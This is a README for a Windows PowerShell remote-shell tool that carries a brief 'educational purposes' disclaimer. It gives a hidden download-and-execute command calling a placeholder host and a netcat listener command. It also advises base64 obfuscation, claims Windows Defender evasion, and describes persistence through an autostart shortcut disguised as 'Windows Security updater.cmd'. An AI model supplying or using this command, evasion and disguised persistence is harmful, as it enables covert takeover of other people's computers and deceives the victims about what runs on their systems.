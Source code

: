# Windows Remote Shell
 
DISCLAIMER: This software is for educational purposes only. This software should not be used for illegal activity. The author is not responsible for its use.


## Description

This software can be used to gain a remote shell on an external Windows-system that supports Powershell (Windows 7 and later). It works by you executing an initial payload, which connects to a server containing the actual/second stage payload. This will circumvent Windows defender.

As soon as the script is injected, it will constantly loop and try to connect to your system. Start your listener and wait a maximum of 10 seconds for the remote shell to connect. Once disconneced, you will not get to connect to it again. You can enable Autostart to get another connection once the "client" restarts his pc.

Despite the script trying to remove its traces (from autostart etc), i did not check if windows (event) logs pick up on this. So please dont do things you shouldnt be doing.

## Configuration

You can either edit "payloadtemplate.ps1.txt" and hardcode what are currently placeholders (`%autostart%`, `%ip%` & `%port%`) to place the file anywhere on the internet and not have to use an ip/domain that belongs to you (because it will show in the taskmanager) - or you use script.php on a webserver of your choice and dynamically generate payloads without changing anything.

For the latter option, just place `script.php` and `payloadtemplate.ps1.txt` next to each other on a webserver and make sure PHP is actually allowed. Some cheap hosts have it disabled.

## Usage

You need to modify the code the "client" runs so their terminal can build a connection to yours.

`powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).downloadString('http://myurl.com/script.php?i=xxx.xxx.xxx&p=xxxx')"`

To create a layer of obsucation, you can encrypt this string in base64 on sites [like these](https://raikia.com/tool-powershell-encoder/). Make sure to read the notes down below!

You can listen to the shell by using `nc -nlvp PORT`. You need to have nc (netcat) installed and change `PORT` to whatever port you made the "client" ping to.

### Arguments

script.php has 2 required arguments and one optional:
- i -> the ip adress the client sends the terminal data to (your pc/server). REQUIRED
- p -> the port the clients terminal tries to connect to (your pc/server). REQUIRED
- a -> weather we write the script to the clients autostart (does not require a value). OPTIONAL

#### About autostart

Since we do not have Admin priviliges, we can not edit the registry or place the payload into the Autostart folder. We need to find a folder where we can place files to and then create a shortcut into the autostart folder. For some reason shortcuts are allowed. **This however will open up a notification for a few seconds that this program is now enabled on boot.** Other than that, you can still find the file manually and you can also see it in the taskmanager under "autostart" as `Windows Security updater.cmd` with no icon. If you want to hide it a little better, get admin rights and figure something out or compile the cmd file to an exe on the clients pc and add an icon and meta data.

If you read "NOTES" you might want to disable autostart on a client that its already enabled on. Just connect to the client and execute the payload again but this time without the autostart argument and on a different port. Close your current session, listen to the new port and once connected, type `exit`. This will remove all traces of the autostart and terminate all running processes.

## NOTES:

As long as the the payload is running and searchinf for a shell, you can see the url to the server if you really search for it in the taskmanager. If you have obfuscated the command into base64, you will still be able to the the decoded url in the taskmanager.

If you execute the payload, the taskmanager will list the powershell task till you connect to it. It gets terminated once the shell terminates. If you have enabled autostart in the payload, the client will **always** run this process. So this might not be what you want when trying to be stealthy. Read in "About autostart" how to disable it again.

## DEMO:
![](display.gif)